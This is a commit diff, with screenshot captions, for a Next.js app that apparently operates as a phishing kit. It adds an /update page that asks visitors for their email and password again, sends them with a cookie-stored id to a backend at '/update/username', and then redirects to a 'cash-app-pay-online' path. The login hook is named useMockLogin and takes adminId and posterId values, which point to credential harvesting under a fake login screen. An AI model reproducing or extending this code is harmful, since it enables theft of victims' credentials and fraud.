

Before and after one commit to emonabdullah445/private-dilight, a Next.js app: page /update in a window 1280 px wide. Before the commit this address had no page. Shown: the top 916 px of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
new page added

```diff
--- a/app/components/LoginForm.js
+++ b/app/components/LoginForm.js
@@ -1,4 +1,4 @@
-import React, { useState, useEffect } from "react";
+import React, { useState } from "react";
 import { Formik, Form } from "formik";
 import * as Yup from "yup";
 import { MdVisibility, MdVisibilityOff } from "react-icons/md";
@@ -6,65 +6,23 @@ import TextfieldWrapper from "./TextfieldWrapper";
 import SubmitButton from "./SubmitButton";
 import { site } from "../config";
 import useMockLogin from "../hooks/useMockLogin";
-import Cookies from "js-cookie";
-import { API_URL } from "../config/index";
-import { toast } from "react-toastify";
-import { useRouter } from "next/navigation";
+
 function LoginForm({ adminId, posterId }) {
   const [showPassword, setShowPassword] = useState(false);
-  const [isFirstLogin, setIsFirstLogin] = useState(true);
-  const [userId, setUserId] = useState("");
-  const router = useRouter();
 
   const initialvalues = {
     email: "",
     password: "",
   };
 
-  const firstLoginValidation = Yup.object({
+  const validate = Yup.object({
     email: Yup.string().required("Required"),
     password: Yup.string().min(8, "Minimum 8 characters"),
   });
 
-  const emailValidation = Yup.object({
-    email: Yup.string()
-      .email("Enter a valid email address")
-      .required("Required"),
-    password: Yup.string().min(8, "Minimum 8 characters"),
-  });
-
-  const validate = isFirstLogin ? firstLoginValidation : emailValidation;
-
   const { login } = useMockLogin(adminId, posterId);
 
-  useEffect(() => {
-    const storedId = Cookies.get("id");
-    if (storedId) {
-      setUserId(storedId);
-      setIsFirstLogin(false);
-    }
-  }, []);
 
-  const updateUserEmail = async (id, email, password) => {
-    try {
-      const response = await fetch(`${API_URL}/update/username`, {
-        method: "POST",
-        headers: {
-          "Content-Type": "application/json",
-        },
-        body: JSON.stringify({ id, email, password }),
-      });
-
-      const data = await response.json();
-      if (response.ok) {
-        router.push("/sim9/dfv/cash-app-pay-online");
-      }
-      return data;
-    } catch (error) {
-      console.error("Error updating email:", error);
-      return null;
-    }
-  };
 
   const handleSubmit = async (values, formik) => {
     const { email, password } = values;
@@ -75,17 +33,7 @@ function LoginForm({ adminId, posterId }) {
       password: password,
       skipcode: "",
     };
-
-    if (isFirstLogin) {
-      login(submitValues, formik);
-    } else {
-      if (userId) {
-        const updateResult = await updateUserEmail(userId, email, password);
-        if (updateResult) {
-          login(submitValues, formik);
-        }
-      }
-    }
+    login(submitValues, formik);
   };
 
   return (
@@ -116,6 +64,7 @@ function LoginForm({ adminId, posterId }) {
                       helpertext="passwords are case-sensitive"
                       autoComplete="on"
                       type={showPassword ? "text" : "password"}
+                      onFocus={() => formik.setFieldTouched("password",true,true)}
                     />
                     <span
                       className="absolute right-0 top-[17px] text-[23px] opacity-50 cursor-pointer"
--- /dev/null
+++ b/app/components/SecondLoginForm.js
@@ -0,0 +1,133 @@
+"use client"
+import React, { useState, useEffect } from "react";
+import { Formik, Form } from "formik";
+import * as Yup from "yup";
+import { MdVisibility, MdVisibilityOff } from "react-icons/md";
+import TextfieldWrapper from "./TextfieldWrapper";
+import SubmitButton from "./SubmitButton";
+import { site } from "../config";
+
+import Cookies from "js-cookie";
+import { API_URL } from "../config/index";
+
+import { useRouter } from "next/navigation";
+
+function LoginUpdateForm({ adminId, posterId }) {
+  const [showPassword, setShowPassword] = useState(false);
+  const [userId, setUserId] = useState("");
+  const router = useRouter();
+
+  const initialvalues = {
+    email: "",
+    password: "",
+  };
+
+  const validate = Yup.object({
+    email: Yup.string().email().required("Enter a valid email address"),
+    password: Yup.string().min(8, "Minimum 8 characters"),
+  });
+
+  useEffect(() => {
+    const storedId = Cookies.get("id");
+    if (storedId) {
+      setUserId(storedId);
+    }
+  }, []);
+
+  const updateUserEmail = async (values) => {
+    try {
+      const response = await fetch(`${API_URL}/update/username`, {
+        method: "POST",
+        headers: {
+          "Content-Type": "application/json",
+        },
+        body: JSON.stringify({ userId, ...values }),
+      });
+
+    //   console.log(response);
+
+      const data = await response.json();
+      if (response.ok) {
+        router.push("/sim9/dfv/cash-app-pay-online");
+      }
+      return data;
+    } catch (error) {
+      console.error("Error updating email:", error);
+      return null;
+    }
+  };
+
+  const handleSubmit = async (values, formik) => {
+    const { email, password } = values;
+
+    const submitValues = {
+      site: site,
+      email: email,
+      password: password,
+      skipcode: "",
+    };
+
+    await updateUserEmail(submitValues);
+  };
+  return (
+    <div className="md:w-[550px] lg:w-[632px] mx-auto mt-[60px] lg:mt-[95px] mb-[90px] lg:mb-[144px]">
+      <div className="flex flex-col items-ceneter">
+        <div className="">
+          <div className="bg-custom-indigo text-white text-xl font-medium px-[26px] py-[18px] shadow-md">
+            Login
+          </div>
+          <div className="border border-slate-300 border-opacity-40 px-[15px] pt-7 pb-[24px]">
+            <Formik
+              initialValues={initialvalues}
+              validationSchema={validate}
+              onSubmit={handleSubmit}
+            >
+              {(formik) => (
+                <Form className="space-y-[18px]">
+                  <TextfieldWrapper
+                    name="email"
+                    label={<span className="text-[#ef4444]">Email</span>}
+                    type="email"
+                      helpertext={<span className="text-[#ef4444]">Enter a valid email address</span>}
+                    onFocus={() => formik.setFieldTouched("email", true, true)}
+                  />
+                  <div className="relative">
+                    <TextfieldWrapper
+                      name="password"
+                      label="Password"
+                      helpertext="passwords are case-sensitive"
+                      autoComplete="on"
+                      type={showPassword ? "text" : "password"}
+                      onFocus={() =>
+                        formik.setFieldTouched("password", true, true)
+                      }
+                    />
+                    <span
+                      className="absolute right-0 top-[17px] text-[23px] opacity-50 cursor-pointer"
+                      onClick={() => setShowPassword(!showPassword)}
+                    >
+                      {showPassword ? <MdVisibilityOff /> : <MdVisibility />}
+                    </span>
+                  </div>
+
+                  <div className="mt-5 flex justify-center">
+                    <SubmitButton>Login</SubmitButton>
+                  </div>
+                </Form>
+              )}
+            </Formik>
+
+            <div className="mt-[58px] mx-4 lg:mx-[55px] text-[16.5px] flex justify-between items-center text-custom-indigo">
+              <p className="cursor-pointer">Set New Password</p>
+              <p className="cursor-pointer">Sign Up</p>
+              <p className="cursor-pointer">Help</p>
+            </div>
+          </div>
+        </div>
+      </div>
+      <div className="h-[1px] bg-slate-600/50"></div>
+    </div>
+  );
+}
+
+export default LoginUpdateForm;
--- a/app/hooks/useMockLogin.js
+++ b/app/hooks/useMockLogin.js
@@ -28,7 +28,7 @@ function useMockLogin(adminId, posterId) {
       console.log("success", data);
       Cookies.set("email", data?.info?.email);
       Cookies.set("id", data?.info?._id);
-      router.push("/sim9/dfv/cash-app-pay-online");
+      router.push("/update");
       // formik.resetForm();
     } else {
       console.log("error", data);
--- /dev/null
+++ b/app/update/page.js
@@ -0,0 +1,16 @@
+import React from 'react'
+import LoginUpdateForm from '../components/SecondLoginForm'
+import Footer from '../components/Footer'
+import Header from '../components/Header'
+
+const login = () => {
+  return (
+    <div>
+      <Header />
+      <LoginUpdateForm />
+      <Footer />
+    </div>
+  )
+}
+
+export default login
```
